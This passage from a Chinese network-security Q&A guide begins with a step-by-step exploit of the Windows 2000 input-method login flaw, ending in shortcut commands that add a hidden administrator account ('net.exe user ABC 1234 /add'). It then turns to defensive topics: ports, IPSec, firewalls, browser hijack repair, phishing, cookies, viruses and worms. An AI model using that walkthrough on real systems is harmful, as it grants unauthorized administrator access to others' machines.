- 第3步：单击“输入法入门…”命令，出现全拼输入法帮助窗口，然后在窗口顶端蓝色标题栏上单击鼠标右键，在快捷菜单上选择“跳至 URL（J）…”。
- 第4步：进入系统目录。从“当前的 URL”可以看到，这台服务器的系统装在“C:\WINNT\”目录下，就让它跳到系统目录 SYSTEM32 上吧，在“跳至该 URL（J）”栏输入：“C:\WINNT\SYSTEM32”，然后单击“确定”按钮，并单击右边的蓝色字“显示文件”。要知道我们还没有登录进入系统呀，就可看到操作它的系统文件了！
- 第5步：通过可执行文件的快捷方式新建一个用户。在目录里随便选择一个可执行的文件，在其上单击鼠标右键，选择创建快捷方式。现在，我们在这个快捷方式上，单击鼠标右键选择“属性”，将目标改为：C:\winnt\system32\net.exe user ABC 1234 /add 如图11所示。


这个快捷方式的意思是创建一个名为 ABC 密码为 1234 的新用户（用户名和密码随你定），然后单击“确定”按钮，再双击运行改好的快捷方式，运行时可看不到什么反应用，其实已经运行创建完毕了！从此在这台服务器上就有了我们专用的账号，也就可以来去自由啦！

第6步：提升用户权限。需要注意的是，这只是一个普通用户，权力还不够大！我们再改刚才那个快捷方式的属性，这次改为：

```
C:\winnt\system32\net.exe localgroup administrators ABC /add
```

第7步：超级用户测试。从此以后，我们以用户名ABC、密码1234登录时，就是超级用户了。

因为大多数广东人都使用五笔输入法，所以利用极品输入法的漏洞也可以完全添加管理用户。对于服务器管理员来说，应该如何来修补这个漏洞呢？最好就是到微软的网站去下载一个输入法漏洞补丁，然后安装，这样，在登录时的“帮助”菜单是灰色的了！或把系统目录中这几个文件删除也行，方法是：删除PINTLGNT.CHM（微软拼音输入法）、WINSP.CHM（双拼输入法帮助文件）、WINZM.CHM（郑码输入法帮助文件）、WINPY.CHM（全拼输入法帮助文件）、WINIME.CHM（输入法操作指南）。

#### 2.14 防火墙防范中，常见的端口有哪些类型？

答：在系统安全防范中，当防火墙阻挡某个连接时，它会将目标端口记录下来，因此，我们经常会在防火墙中看到“阻挡来自xx端口的连接”。那么，到底哪些端口更容易受到攻击呢？一般来说，端口包括公认端口、注册端口、动态/私有端口这三大类。其中公认端口（Well Known Ports）的范围是从0到1023，它们紧密绑定于一些服务，通常这些端口的通信明确表明了某种服务的协议，如80端口实际上总是HTTP通信。注册端口（Registered Ports）的范围是从1024到49151，它们松散地绑定于一些服务，即有许多服务绑定于这些端口，其中还有一些端口用于许多其他目的，如许多系统处理动态端口从1024左右开始。动态/私有端口（Dynamic and/or Private Ports）的范围从49152到65535。以下是在安全防范中常用的端口及说明：

- 21 (ftp): 表示攻击者试图打开“anonymous”ftp服务器。攻击者进入这些服务器中带有可读写的目录，并将其作为传送私有程序的节点。
- 23 (Telnet): 表示攻击者试图搜索远程登录UNIX的服务。大多数情况下入侵者扫描这一端口是为了找到机器运行的操作系统。此外使用其他破解技术，入侵者会找到密码。
- 25 (SMTP): 表示攻击者试图寻找SMTP服务器。他们拨号连接到高带宽的E-mail服务器上，将简单的信息传递到不同的地址。SMTP服务器是进入系统的最常用方法之一，因为它们必须完整地暴露于Internet，而且邮件的路由很复杂。
- 53 (DNS): 表示攻击者试图进行区域传递（TCP），欺骗DNS（UDP）或隐藏其他通信。因此防火墙常常过滤或记录53端口。需要注意的是你常会看到53端口作为UDP源端口。不稳定的防火墙通常允许这种通信并假设这是对DNS查询的回复。很多攻击者常使用这种方法穿透防火墙。
- 79 (finger): 可以用于查询操作系统，探测已知的缓冲区溢出错误，获得用户信息，回应从自己机器到其他机器finger扫描。
- 110 (POP3): 用于客户端访问服务器端的邮件服务。POP3服务有许多公认的弱点，关于用户名和密码交换缓冲区溢出的弱点至少有20个，这样攻击者可以在真正登录前进入系统，而成功登录后还有可能找到其他缓冲区溢出漏洞。
- 139 (NetBIOS文件和打印共享): 通过这个端口进入的连接试图获得NetBIOS/SMB服务。这个协议被用于Windows“文件和打印机共享”，而在Internet上共享自己的硬盘是一个很容易被攻击者利用的漏洞。
- 161 (SNMP): 这也是入侵者经常探测的端口，SNMP允许远程管理设备。所有配置和运行信息都储存在数据库中，通过SNMP可以获得这些信息。如果将它们暴露于Internet，则有可能被别人作为缺省的密码访问系统。
- 27910~27961: 很多游戏在这些端口运行其服务器。因此来自这一端口范围的UDP包或发送至这一端口范围的UDP包通常是游戏。因此，有些爱好游戏的朋友经常会在自己的机器上收到来自类似端口的连接。

#### 2.15 什么是IPSec？

答：IPSec（Internet 协议安全）是一个工业标准网络安全协议，为IP网络通信提供透明的安全服务，保护TCP/IP通信免遭窃听和篡改，可以有效抵御网络攻击，同时保持易用性。IPSec的两个基本目标是保护IP数据包安全和为抵御网络攻击提供防护措施。

IPSec结合密码保护服务、安全协议组和动态密钥管理三者来实现上述两个目标，不仅能为企业局域网与拨号用户、域、网站、远程站点以及Extranet之间的通信提供强有力且灵活的保护，而且还能用来筛选特定数据流。通常IPSec提供的保护需要对系统做一定的修改。IPSec工作在IP传输层，几乎不需要什么额外资源，就可以实现为绝大多数应用系统、服务和上层协议提供较高级别的保护。如果要为现有的应用系统和操作系统配置IPSec，几乎无须做任何修改，通过几个简单工具，加几条简单命令，安全策略就对某台主机上进行轻松管理。针对个人用户、工作组、应用系统、域、站点或跨国企业等不同的安全要求，网络安全管理员可以配置多种策略以分别满足需求。

#### 2.16 防火墙的安全策略有哪些？

答：安全策略是规定什么人或什么事允许连接到哪些人或哪些事，如一项计划规定只有董事、高级主管和科研开发小组成员可以接到科研开发局域网。我们可以从以下方面来分析防火墙管理中的安全策略内容：

（1）遵循安全防范的基本原则，即“除非明确允许，否则就禁止”。用户在选择防火墙后，需要马上制定安全策略来对其进行合理有效的配置。如建立内、外网之间的安全访问策略，确保域名解析的正常等。

（2）服务。如果用户需要NNTP（网络消息传输协议）、HTTP和Gopher等服务，防火墙应该包含相应的代理服务程序。防火墙也应具有集中邮件的功能，以减少SMTP服务器和外界服务器的直接连接，并可以集中处理整个站点的电子邮件。

（3）集中和过滤接入访问，并可记录网络流量和可疑的活动。防火墙的强度和正确性应该可被验证，设计尽量简单，以便管理员理解和维护。

（4）防火墙的安全问题。大部分防火墙都安装在一般的操作系统上，如Unix、Windows NT 系统等。在防火墙主机上执行除了防火墙软件外，所有的程序、系统核心也大多来自于操作系统本身的原有程序。当防火墙主机上所执行的软件出现安全漏洞时，防火墙本身也将受到威胁。

（5）配置的方便性。一个好的防火墙应该具有强大的功能，而且配置起来非常方便。选购防火墙时，一定要看它的配置是否容易掌握，否则，复杂的配置对于网络管理员将是一场噩梦。

（6）有用的日志。防火墙日志应具有可读性，防火墙应具有精简日志的能力，帮助管理员从日志中快速检索到有用的信息。

### 三、网页安全攻防篇

#### 3.1 网页浏览中的“陷阱”通常有哪些？

答：恶意站点陷阱的常见形式有：

- （1）修改默认连接首页。比如IE浏览器上方的标题栏被改成“欢迎访问http://www.aogo.net网站”的样式，这是最常见的篡改手段，受害者较普遍，而且不容易修改还原。
- （2）修改IE浏览器缺省主页。最令人可恶的是，它会锁定设置项，禁止用户更改回来。试想，当我们打开IE浏览器的时候，跳出来一些莫名其妙的窗口，把整个界面搞得乌烟瘴气，这个时候用户还有心情浏览网站吗？
- （3）还有个比较死皮赖脸的做法是修改IE右键菜单，把自己网站的网址加到右键菜单上。
- （4）有些恶意代码设置在启动windows时弹出一个窗口，必须点击才能进入windows，并且自己调出浏览器窗口，大有喧宾夺主的气势。
- （5）IE默认搜索引擎被修改。在IE浏览器的工具栏中有一个搜索引擎的工具按钮，可以实现网络搜索。被篡改后只要点击那个搜索工具按钮就会链接到那个篡改网站。
- （6）注册表被禁用。这就好比自己家里的保险柜被禁止使用一样，其中的滋味只有受害者才能理解。
- （7）强行在IE收藏夹中加上恶意网站的链接地址；强行在IE工具栏中加上恶意网站的链接按钮。
- （8）篡改文件创建日期和系统时间；篡改“我的电脑”属性中的“注册用户名”和“组织”。

这些恶作剧不胜枚举，以上只是比较常见的一部分，要真正预防落入这些陷阱，还须掌握一些防范技巧。

#### 3.2 如何防范网络浏览中的“陷阱”？

答：可以从以下几个方面着手防范：

（1）升级你的IE为6.0以上版本，这样可以有效地防范由于版本低导致的一些漏洞，从而有效防范上面这些症状。比较常见的方法是到“http://windowsupdate.microsoft.com/”这个站点升级浏览器的相关补丁。

（2）不要轻易浏览一些自己并不了解的站点，特别是那些看上去诱人的网址，更不要“明知山有虎，偏向虎山行”。

（3）将ActiveX插件和控件、Java脚本等全部禁止。由于这些网页是含有有害代码的ActiveX网页文件，因此在IE设置中将ActiveX插件和控件、Java脚本等全部禁止。不过，这样做在以后的网页浏览过程中可能会造成一些正常使用ActiveX的网站无法浏览。具体方法是在IE窗口中选择“工具”菜单中的“Internet选项”，在弹出的对话框中选择“安全”标签，再选择“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有ActiveX插件和控件以及Java相关全部选择“禁用”即可。

（4）升级WSH。WSH是Windows Scripting Host Object Reference的缩写，它支持多种脚本语言，同时也支持MS-DOS命令脚本，这给有恶意者可乘之机。因此建议经常上网的普通计算机用户可以考虑选择升级到WSH 5.6以上的最新版本。

（5）建议安装一些杀毒软件和一些网络保护软件对此类恶作剧进行监控，并予以拦截。在浏览网页或收发邮件的时候，打开病毒防火墙或者病毒监控程序，这样可以有效地防范一些邮件中的病毒程序。

#### 3.3 如何在浏览器中查看“隐私报告”

答：Cookies是从浏览过的网站服务器发送出来的，并通过你的浏览器，在你的电脑硬盘储存的少量数据。这些数据主要是一些标识码，它们记录了你在Web站点的访问次数，访问时间和你进入站点的路径等信息。这些信息可以用于统计用户信息，可以为用户实现个性化服务，可以在不键入用户名和密码的情况下直接进入曾经浏览的某些站点，Cookies还可以加快浏览网页的速度。

不过，自己被网站悄悄地跟踪实在是件不愉快的事。更何况，难免有些恶意站点通过这个小“甜饼”给你制造点小麻烦，比如把你的E-mail地址等信息卖给商业网站，使你的信箱充满垃圾邮件等。所以，随着Cookies技术与用户隐私权的矛盾日益突出，各种删除Cookies的方法也不断出现。如果我们不想自己的隐私被别人看见，可以采用如下的方法。在IE中单击“工具”菜单下的“Internet选项”，在“常规”选项卡中有个“Internet临时文件”项，点击“删除Cookies”按钮，就能把浏览器中所有的Cookies全部删除掉。点击“设置”按钮，通过“查看文件”，就可以找到哪些网站在你的电脑里留下了Cookies。如图12所示。


目前大型正规的网站一般都有隐私首选项平台隐私策略，它告诉用户，网站通过放置的Cookies，收集用户的哪些资料，这些资料的用途等。那么你就可以把该网站的隐私策略和你的隐私设置相比较，来决定是否让该网站放置Cookies。查看隐私策略的方法很简单，就是在IE6的“查看”菜单中点击“隐私报告”命令。要想自定义隐私权，那么点击“隐私”中的“高级”按钮，可以自行进行高级隐私策略设置。设置完毕，如果有未经允许的网站向你发送Cookies，那么就会在IE6浏览器的底部出现不接受的提示。

#### 3.4 网页广告插件是如何进入用户电脑的？

答：一般而言，广告商会给软件开发者提供一个SDK或者控件（如ActiveX或者VCL形式），并给作者一个软件ID，然后软件作者把该控件（一般大小就是广告条的尺寸）放在软件界面的显著位置，编译后打包分发软件。用户在使用软件的过程中，软件中的广告控件会自动从广告商的服务器上获取广告条，然后播放，同时会把用户显示及点击广告的次数反馈给服务器，用以统计软件作者的收益及广告的效果。有些广告控件安装后，它可以收集各种相关信息，从浏览器版本、计算机配置、IP地址、系统信息（操作系统和平台、CPU速度）等。采用此类技术的软件一般都是Freeware（免费）软件。

日常防护主要来自免费的浏览器如IE，虽然它使用简单、功能强大，但它并没有抵挡广告的功能，最大限度在于只能屏蔽一些受限制站点。仅有这些安全不能满足我们的要求，所以出现了MyIE2等采用IE内核的个性化多页面浏览器。下载MyIE2并安装后，依次打开“选项”下的“设置中心”，在弹出窗口中选择“弹出窗口过滤”，就可以对一些网站的广告目录地址或弹出广告地址进行设置。如需要浏览某些网站的正常弹出窗口，可在“免过滤名单”中加入免过滤地址即可。除以上方法外，它还可以利用添加“去广告插件”的方式来完善拦截功能。

#### 3.5 IE默认连接首页被修改怎么办？

答：浏览一些恶意网站后，用户浏览器上方的标题栏很容易变成“欢迎访问……网站”的样式。受到更改的注册表项目为：
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main\Start Page]
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page]

一般来说，通过修改“Start Page”的键值，可以达到修改浏览者IE默认连接首页的目的，找到串值“Start Page”双击，将Start Page的键值改为“about:blank”，重新启动计算机即可恢复。

另外，有些IE的起始页变成某些网址后，即使通过选项设置修改好了，重启以后又会变成他们的网址了。其实，这是一个自运行程序在作怪，它会在系统启动时将IE起始页更改。解决办法为，运行注册表编辑器regedit.exe，然后依次展开[HKEY_LOCAL_MACHINE\Software\ Microsoft\Windows\Current Version\Run]主键，然后将其下的“registry.exe”子键删除，删除自运行程序“C:\Program Files\registry.exe”，最后从IE选项中重新设置即可。

#### 3.6 如何清除开机时自动弹出的网页？

答：首先要记住地址栏里出现的网址，然后打开注册表编辑器，分别定位到：
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Runonce]

看看在该子项下是否有一个以这个网址为值的项，如果有的话将其删除，重新启动计算机。这样在下一次开机的时候就不会有网页弹出来了。

不过，有些网页恶意代码的编写者会在注册表的不同键值中多处设有这个值。遇到这种情况，可以在注册表编辑器的选项菜单里选择“编辑”下的“查找”，在“查找”对话框内输入开机时自动打开的网址，然后点击“查找下一个”，将查找到的值项删除。

#### 3.7 浏览网页后，注册表被锁定怎么办？

答：注册表被锁定这一招是比较恶毒的，它使普遍用户即使会简单修改注册表使其恢复的条件下，困难又多了一层。症状是在开始菜单中点击“运行”命令，在“运行”对话框中输入regedit命令时，注册表不能够使用。究其原因，这是由于[HKEY_CURRENT_USER\Software \Microsoft\Windows\CurrentVersion\Policies\System]下的DWORD值“DisableRegistryTools”被修改为“1”的缘故，在安全模式下将其键值恢复为“0”，即可恢复注册表的使用。

#### 3.8 双网卡连接后不能打开网页怎么办？

问：我通过双网卡实现了两台Windows系统的电脑互联，但联网后发现：主机中上网一切正常，客户机中却打不开网页，但又可以上QQ。请问如何来解决这样的问题呢？

答：造成这样的原因，可能是Windows系统中TCP/IP的MaxMTU值和ADSL中的MaxMTU值不匹配所造成的。你可以通过修改客户机中的MaxMTU值来解决这个问题。打开注册表编辑器，依次展开[HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Tcpip/Parameters/Interfaces/]; 在“Interface”项下查找包含有你机器网络IP设置的主键，然后在该主键中新建一个REG_DWORD类型的“MTU”键，并设置其键值为“1450”或是小于“1492”的任意数值，最后重启客户机即可。

#### 3.9 浏览器出现非法提示怎么办？

答：通过IE浏览器打开有些网页时，总是弹出一个“该程序执行了非法操作，即将关闭”的提示对话框，单击该对话框中的“确定”按钮后又弹出一个对话框，并提示“发生内部错误……”，再次单击“确定”按钮后，所有打开的IE窗口全部自动关闭。

这可能是运行的程序占用内存资源过多，解决方法当然只有关掉当前不用的程序或IE窗口。另外，当IE安全级别设置与浏览的网站不匹配、与其他软件发生冲突、浏览的网站本身含有错误代码等情况，都有可能促使问题的发生，可以通过降低IE安全级别来解决，方法如下：打开IE浏览器，执行"工具"菜单下的"Internet选项"菜单，选择"安全"标签下的"Internet"项，并单击"默认级别"按钮，拖动滑块降低默认的安全级别即可；另外，建议将IE升级到较高版本。

#### 3.10 点击超级链接时，IE浏览器毫无反应怎么办？

答：出现点击超级链接没反应的原因多半是因为IE新建窗口模块被破坏所致。单击"开始"→"运行"命令，在"运行"对话框中分别运行："regsvr32 actxprxy.dll"和"regsvr32 shdocvw.dll"，待这两个DLL文件注册后，重启系统。如果还不行，则可将"mshtml.dll"、"urlmon.dll"、"msjava.dll"、"browseui.dll"、"oleaut32.dll"和"shell32.dll"通过同样的方法分别进行注册，最后重启系统。

### 3.11 以"允许脱机浏览"收藏网页后，为何提示"无法浏览"？

答：这多半是由于修改了系统时间，引起IE历史记录的错乱，导致脱机文件无法浏览的结果。遇到这种情况时，可以在"临时文件夹"中以搜索的方式来激活它。单击"开始"菜单中的"搜索"按钮，选择"所有文件和文件夹"搜索方式，

#### 3.12 升级操作系统后，为何不能使用QQ传递文件？

答：这是由于Windows XP中的拨号程序默认带了一个防火墙，导致了网络传输受阻。可以通过关闭"Internet连接防火墙"功能，实现文件传输。操作步骤如下：打开"网络连接"，右击"拨号连接"后选择"属性"命令。在打开的拨号连接属性界面中选择"高级"选项卡，在"Windows防火墙"栏中单击"设置"按钮，在弹出的"Windows防火墙"面板中，选中"关闭（不推荐）"复选框，并单击"确定"按钮退出即可。

### 3.13 MSN登录后出现"0x81000370错误"是什么原因？

答：首先，打开IE属性，选择"连接"→"局域网设置"，在弹出的"局域网（LAN）设置"对话框中取消选择"自动检测设置"。如果使用了代理服务器也可能导致MSN不能登录，解决方法如下：单击MSN面板中的"工具"→"选项"命令，确定"连接"选项卡上的"我使用代理服务器"复选框被清除。

#### 3.14 钓鱼式攻击主要有哪些方法？

答：作为一种欺骗式攻击，钓鱼式攻击的攻击者首先要精心营造欺骗环境。具体方法有：

- （1）伪造链接地址。首先，攻击者改写Web页中的所有URL地址，这样它们指向了攻击者的Web服务器而不是真正的Web服务器。
- （2）伪造表单。在表单欺骗中，表单的确定信息被编码到URL中，内容会以HTML形式来返回。当受攻击者提交表单后，所提交的数据就进入了攻击者的服务器。
- （3）伪造"安全连接"。HTTPS是建立在Secure Sockets Layer（SSL）技术基础之上的超文本传输协议，它提供了一个已加密的TCP与网络服务器相连接（通常是56比特或128比特），这一加密技术在网络服务通信与SSL连接相叠加时提供保护。受攻击者可以和WEB欺骗中所提供的错误网页建立起一个看似正常的"安全连接"，但此时的安全连接通常是一个骗局。
- （4）伪造入口。为了开始攻击，攻击者必须以某种方式引诱受攻击者进入攻击者所创造的错误的Web。包括各类图标、文字、链接等，提供给受攻击者各种各样的十分可信的暗示，总之就是隐藏一切尾巴。此时，如果错误的Web是具有敌意的，那么无辜的用户将处于十分危险的境地。
- （5）伪造状态。连接状态是位于浏览器底部的提示信息，它提示当前连接的各类信息。WEB欺骗中涉及两类信息。由于JavaScript能够对连接状态进行写操作，而且可以将JavaScript操作与特定事件绑定在一起，所以，攻击者完全可以将改写的URL状态恢复为改写前的状态，这样的Web欺骗将更为可信。
- （6）伪造位置状态行。浏览器的位置状态行显示当前所处的URL位置，用户也可以在其中键入新的URL地址进入到另外的URL，如果不进行必要的更改，此时URL会暴露出改写后的URL。同样地，利用JavaScript可以隐藏掉改写后的URL。JavaScript能用不真实的URL掩盖真实的URL，也能够接受用户的键盘输入，并将之改写，进入不正确的URL。

很显然，在得到必要的数据后，攻击者可以通过修改受攻击者和WEB服务器之间任何一个方向上的数据，来进行某些破坏活动。攻击者修改受攻击者的确认数据，例如，如果受攻击者在线订购某个产品时，攻击者可以修改产品代码，数量或者邮购地址等等。攻击者也能修改被WEB服务器所返回的数据，例如，插入易于误解或者攻击性的资料，破坏用户和在线公司的关系等等。

为了防范利用Applet的攻击，人们开始寻找各种优秀的防范措施，Java采取了许多新的安全措施，它的最主要的安全机制就是Java沙箱和基于数字签名的Applet信任机制。

#### 3.15 如何防范网页中的Java Applet攻击？

答：现在，各种Java应用中都大量使用了Java Applet这种特殊的Java小程序，各种具有Java功能的浏览器，如Microsoft Internet Explorer、Netscape Navigator等，也能够自动下载并执行内嵌在Web页面中的Java Applet。Applet在给人们带来好处的同时，也带来了潜在的安全隐患。它使Applet 的设计者有机会入侵他人的机器。对普通用户来讲，可以采用以下方法进行防范：

- (1) 不要随便浏览恶意的网站。虽然大部分的网页是安全的，但是，如果目前使用的是十分重要的服务器或其他存有重要资料的电脑，就要三思而后行了。

- (2) 有针对性地安装浏览器或系统补丁。很多恶意的 Applet 就是针对最新的漏洞进行攻击，通常，在新版的浏览程序中通常会对以前版本的 bug 进行改进或提供“补丁”程序，用户也可以多留意目前市场上针对 Java 的漏洞进行弥补的新产品。作为网络用户，对于相关的网络安全警告应多加注意。

- (3) 针对网页上的恶意 Java Applet 及类似可执行文件制定相关策略。不同厂家的 Java 虚拟机采用的安全策略是不一样的，如 Netscape 公司所采取的安全策略与微软采用的策略就明显不同。

#### 3.16 如何防范针对网络银行攻击？

答：常见的网络银行界面如图 13 所示。


按攻击者作案手段，可把攻击者分为登录型攻击者和监听型攻击者。登录型攻击者在窃得被攻击计算机上一定用户的口令后，用 telnet、ftp、rlogin 等远程登录软件进入这台计算机系统，进而进行破坏行为。监听型攻击者作案形式通过某些专用设备接入广域网，长期监听网络数据，在掌握大量数据后，伪造交易数据包，发送给被攻击计算机，从而达到作案目的。防范针对网络银行的攻击，可以从如下方面着手：

第一，要防止攻击者登录系统，可采取以下措施：

- (1) 采取严密的管理制度，严防用户的口令的丢失。攻击者必定想方设法得到用户口令，以便进入系统，进行破坏，因此用户口令是防止攻击者登录的第一道防线。但由于现在 Internet 上有许多破解用户口令的程序，仅靠管理人员保管好用户口令是不够的。

- (2) 关闭 UNIX 上用于远程登录的服务端口，由于攻击者登录远程系统，必须借助于 UNIX 机上的服务端口才能登录远程系统，关闭了此类端口，就断绝了攻击者登录的来源。但是银行由于某些业务上的需要，某些端口是不能关闭的，所以此方法也有其局限性。

- (3) 购买路由器，通过路由器上的设置，过滤数据包，达到防止攻击者登录的企图。有条件的还可以考虑购买防火墙产品。

第二，对监听型攻击者进行防范主要采取两种手段：

- (1) 对交易数据全部加密，防止攻击者监听。

- (2) 运用某项技术来判别交易数据包的真伪。

如对整个数据包进行加密，实现交易数据的完全密封，防止攻击者侦听网上数据包，不给攻击者分析数据的机会；采用信息授权码技术，在数据包添加 MAC 字段，用于判别交易数据包的真伪，提高系统的抗攻击能力。

第三，对于用户来说，使用网络银行时，切勿使用出生日期、电话号码或常用名字作为密码。切勿向任何人（包括银行职员及警方）透露密码，并避免把密码写入记事簿或电脑；不应使用进入网上银行所用的登入名称或密码进行其他网上服务（如电邮及接驳互联网）；遵照银行提供的保安提示；切勿使用公用电脑（如可供上网的咖啡室）或通过电邮的超连结登入网上银行的网站；定期查阅银行户口结余及交易记录（使用网上银行服务便可随时查阅）；银行及警方绝不会要求获知你的密码。假如用户被要求透露密码，应立即联络银行，从而保证自己的账户安全。

#### 3.17 什么是 Cookie? 如何进行 Cookie 安全防范?

答：Cookie 的英文原意是“甜饼”，它是一个保存在客户机中的简单文本文件，这个文件与特定的 Web 文档关联在一起，保存了该客户机访问这个 Web 文档时的信息，当客户机再次访问这个 Web 文档时这些信息可供该文档使用。由于“Cookie”具有可以保存在客户机上的神奇特性，因此它可以帮助我们实现记录用户个人信息的功能。Cookie 数据以 Cookie 文件格式存储在浏览者计算机的 cache 目录里，其中就包含有关网页、密码和其他用户行为的信息，那么只要进入硬盘就能打开 Cookie 文件，打开 IE 浏览器，选择“工具”菜单里的“Internet 选项”，然后在弹出的对话框里单击“设置”按钮，选择“查看文件”按钮，在弹出的窗口中，就会显示硬盘里的缓存数据，其中就有大量的 Cookie 文件。

IE6.0 提供了可靠的个人隐私及安全保护措施，可以让用户来控制浏览器向外发送信息的多少。在“Internet 选项”窗口中，有一个“隐私”选项卡，用户可以在其中直接设置浏览时的隐私级别，按需要控制其他站点对自己电脑所使用的 Cookies，如图 14 所示。


需要注意的是：杜绝 Cookies 虽然可以增强电脑的信息安全程度，但这样做同样会有一些弊端。比如，在一些需要 Cookies 支持的网页上，会发生一些莫名其妙的错误，典型的例子就是以后不能使用某些网站的免费信箱了。

### 四、病毒与木马攻防篇

#### 4.1 常见的病毒有哪些？

答：各种不同种类的病毒有着各自不同的特征，它们有的以感染文件为主、有的以感染系统引导区为主，大多数病毒只是开个小小的玩笑，但少数病毒则危害极大（如 CIH 病毒），这就要求我们采用适当的方法对病毒进行分类并加以应对，常用的分类有以下几种：

- （1）按传染方式，可分为引导型病毒、文件型病毒和混合型病毒三种。引导型病毒主要是感染软盘、硬盘的引导扇区或主引导扇区。文件型病毒一般只传染磁盘上的可执行文件，在用户调用染毒的可执行文件时，病毒首先被运行，然后病毒驻留内存伺机传染其他文件或直接传染其他文件，其特点是附着于正常程序文件，成为程序文件的一个外壳或部件。混合型病毒是以上几种病毒的混合，既染引导区又染文件，因此扩大了这种病毒的传染途径。
- （2）按连接方式分为源码型病毒、入侵型病毒、操作系统型病毒、外壳型病毒等四种。源码病毒主要攻击高级语言编写的源程序，它会将自己插入到系统的源程序中，并随源程序一起编译、连接成可执行文件。入侵型病毒则是那些用自身代替正常程序中的部分模块或堆栈区的病毒。操作系统病毒则是用其自身部分加入或替代操作系统的部分功能，危害性较大。外壳病毒主要是将自身附在正常程序的开头或结尾，相当于给正常程序加了个外壳。
- （3）按破坏性可分为良性病毒和恶性病毒。良性病毒是指对系统的危害不太大的病毒，它一般只是个小小的恶作剧罢了，如破坏屏幕显示、播放音乐等；恶性病毒则是指那些对系统进行恶意攻击的病毒，它往往会给用户造成较大危害。
- （4）病毒按程序运行平台分类可分为 DOS 病毒、Windows 9X 病毒、Windows NT 病毒、OS/2 病毒等，它们分别发作于 DOS、Windows 9X、Windows NT、OS/2 等操作系统平台上的病毒。

病毒分类是一个思维的定位，就目前的病毒形势来看，邮件病毒和网络病毒是比较典型的两种。邮件病毒就是以电子邮件方式作为传播途径的计算机病毒，实际上该类病毒和普通病毒一样，只不过是传染方式改变而已。如今的网络病毒是指以网络为平台，对计算机产生安全威胁的所有程序的总和。随着邮件病毒的出现，各种病毒技术交叉融合，将网络病毒推向了病毒之王的宝座。

#### 4.2 防病毒软件的工作原理是什么？

答：防病毒软件可以使用许多技术来检测恶意软件，其工作原理包括：

- （1）签名扫描。目前大多数防病毒软件程序都使用此技术，它通过搜索目标（宿主计算机、磁盘驱动器或文件）来查找表示恶意软件的模式。一般来说，防病毒软件会准备一个将病毒和蠕虫特征编成数据库的病毒特征库文件，通过核对这个特征库和收到的文件，来判断该文件是不是病毒，这种方法称为特征匹配。但这种方法存在一个很大的缺点：对没有在特征库文件中登记的病毒和蠕虫就一点作用都没有。
- （2）启发式扫描。此技术通过查找通用的恶意软件特征，来尝试检测新形式和已知形式的恶意软件。此技术的主要优点是，它并不依赖于签名文件来识别和应对恶意软件。但是，启发式扫描具有许多特定问题，包括：
    - 错误警报。此技术使用通用的特征，因此如果合法软件和恶意软件的特征类似，则容易将合法软件报告为恶意软件。
    - 慢速扫描。查找特征的过程对于软件而言要比查找已知的恶意软件模式更难。因此，启发式扫描所用的时间要比签名扫描的时间长。
    - 新特征可能被遗漏。如果新的恶意软件攻击所显示的特征以前尚未被识别出，则启发式扫描器可能会遗漏它，直至扫描器被更新。
    - 行为阻止。此技术着重于恶意软件攻击的行为，而不是代码本身。例如，如果应用程序尝试打开一个网络端口，那么，行为阻止防病毒程序会将其检测为典型的恶意软件行为，然后将此行为标记为可能的恶意软件攻击。

此外，赛门铁克公司在 Norton Antivirus 2003 中添加了“拦截蠕虫”的功能。其原理非常简单，就是“当具有邮件发送功能的程序要将自身作为附件发送邮件时，阻止其发送”，也就是说阻止蠕虫病毒典型性的繁殖活动。

#### 4.3 什么是蠕虫病毒？

答：蠕虫病毒（Worm）蠕虫病毒是计算机病毒的一种，它的传染机理是利用网络进行复制和传播，传染途径是通过网络和电子邮件。1988 年，22 岁的康奈尔大学研究生罗伯特·莫里斯（Robert Morris）通过网络发送了一种专为攻击 UNIX 系统缺陷，名为“蠕虫”（Worm）的病毒。蠕虫造成了 6000 个系统瘫痪，估计损失为 200 万到 6000 万美元。由于这只蠕虫的诞生，在网上还专门成立了计算机应急小组（CERT）。现在，蠕虫病毒家族已经壮大到成千上万种，并且这千万种蠕虫病毒大都出自黑客之手。蠕虫病毒的一般防治方法是：使用具有实时监控功能的杀毒软件，并且注意不要轻易打开不熟悉的邮件附件。

#### 4.4 蠕虫的传播方式有哪些？

答：蠕虫的“传播方式”有几种：电子邮件、网页代码、社会工程学以及系统漏洞等。

- （1）邮件蠕虫是其中的主要来源，靠邮件传播的蠕虫主要有 SoBig、MyDoom、求职信等。
- （2）网页传播的蠕虫手段无疑更为高明，比如，利用脚本制作的蠕虫，它们并不是可执行程序，而是一段具有破坏和自动寻找载体能力进行传播的代码。
- （3）社会工程学。这种蠕虫的实现原理很简单：当蠕虫爬进你的机器后，它就会查找 QQ 进程，截获发送消息事件，并且在 QQ 的信息里自动加入一段诱惑的话，浏览它藏身的网页时，蠕虫将自动爬入电脑，同时中毒的电脑成为它的又一个宣传者。如大名鼎鼎的“QQ尾巴”，例如，‘想看我的相片吗，请到http://www.51image*.com’。
- （4）系统漏洞蠕虫。系统漏洞蠕虫一般具备一个小型的溢出系统，它随机产生 IP 并尝试溢出，然后将自身复制过去。它们往往造成被感染系统性能速度迅速降低，甚至系统崩溃。因为蠕虫的类型已经变得非常复杂，造成的破坏可能有：影响用户正常使用机器（比如“冲击波”）、扰乱网络通信（如 Nimda）、破坏用户机器（比如“欢乐时光”）、“借机杀人”（如 MyDoom、“SQL 蠕虫王”）、发 Email（如 Sobig）等。

#### 4.5 网络病毒的防范方法有哪些？

答：病毒的传播和感染由以软盘、软件为媒介发展到了因特网时代的以网络为媒介的侵入。预防网络病毒可以从以下方面着手：

- （1）用实时作业方式扫描所有进出网络的文件。由于 NT 很难实现无盘工作站上网，因此登入网络的工作站基本上为有盘站，这样为病毒进入网络创造了更多的机会。若在工作站上选择优秀的具有实时检查、实时杀毒功能的杀毒软件，则能阻止病毒从工作站进入网络系统。在服务器端安装基于 Windows 服务器上开发的 32 位的实时检查、实时杀毒的服务器杀毒软件，可消除病毒在网上的传播。经过网络病毒防治服务器的检测与过滤，这样就保证了网络病毒的实时查杀与防治。
